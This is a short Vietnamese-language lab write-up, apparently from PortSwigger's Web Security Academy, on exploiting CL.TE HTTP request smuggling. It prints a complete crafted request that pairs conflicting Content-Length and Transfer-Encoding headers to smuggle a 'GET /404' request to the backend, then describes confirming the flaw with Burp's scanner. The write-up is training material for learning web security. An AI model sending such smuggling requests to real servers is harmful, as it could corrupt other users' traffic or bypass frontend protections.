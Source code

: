 ### Đề bài

![image](https://hackmd.io/_uploads/SkELp4jaa.png)

### Phân tích

- biết máy chủ frontend không hỗ trợ chunked encoding
- để solve lab mình cần gửi request đến máy chủ backend trigger được lỗi 404

### Khai thác

- Để xác định đây là dạng CL.TE, ta gửi request sau:

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![image](https://hackmd.io/_uploads/rJOIerj6T.png)

Gửi request trang chủ một cách thông thường → bị trả 404 do bị smuggling.

![image](https://hackmd.io/_uploads/H1_IgSj6T.png)

và lab của chúng ta đã được solve

![image](https://hackmd.io/_uploads/Sk-AWBiT6.png)

### Burp scan

- mình quét lại bài lab với burp scan

![image](https://hackmd.io/_uploads/S1ukeBjap.png)

- đầu tiên burp gửi request có Transfer-Encoding và trả về thành công 200 OK

![image](https://hackmd.io/_uploads/ryMxgrjTa.png)

tiếp đó gửi Transfer-Encoding kèm theo 1 http chèn bên trong để GET đến URL lỗi và kết quả vẫn 200 OK

![image](https://hackmd.io/_uploads/Bkk-gSs6a.png)

sau đó gửi với request thông thường và trigger được http smuggling
